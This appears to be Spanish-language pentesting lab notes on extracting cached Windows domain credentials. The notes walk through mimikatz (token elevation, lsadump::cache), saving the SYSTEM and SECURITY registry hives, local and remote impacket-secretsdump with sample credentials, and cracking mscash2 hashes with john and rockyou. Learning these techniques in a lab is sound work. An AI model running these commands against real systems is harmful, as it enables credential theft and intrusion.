







Esto se debe a las credenciales de dominio que se cachean en una maquina windows de manera local al autenticarse por primera vez.
Esto permite que habiendo comprometido un usuario local podemos acceder a ese cacheo de credenciales.
En el usuario local de WS01:


Suplantamos de nuevo el token de system porque necesitamos esos privilegios:
privilege::debug
token::elevate

lsadump::cache

Como vemos se tratan de todas las credenciales cacheadas de todos los usuarios que iniciaron sesión en este equipo en algún momento en ese formato de hash.
Las podemos llevar a kali y crackearlas:
john -format=mscash2 hash.hash -wordlist=/usr/share/wordlists/rockyou.txt
reg save hklm\system system.save
reg save hklm\security security.save
Los pasamos a Kali:
impacket-secretsdump -system system.save -security security.save LOCAL

Ahora si copiamos los hashes y de igual forma:
john -format=mscash2 hash.hash -wordlist=/usr/share/wordlists/rockyou.txt

De forma remota de igual forma:
impacket-secretsdump empleado1:Passw0rd1@192.168.20.131
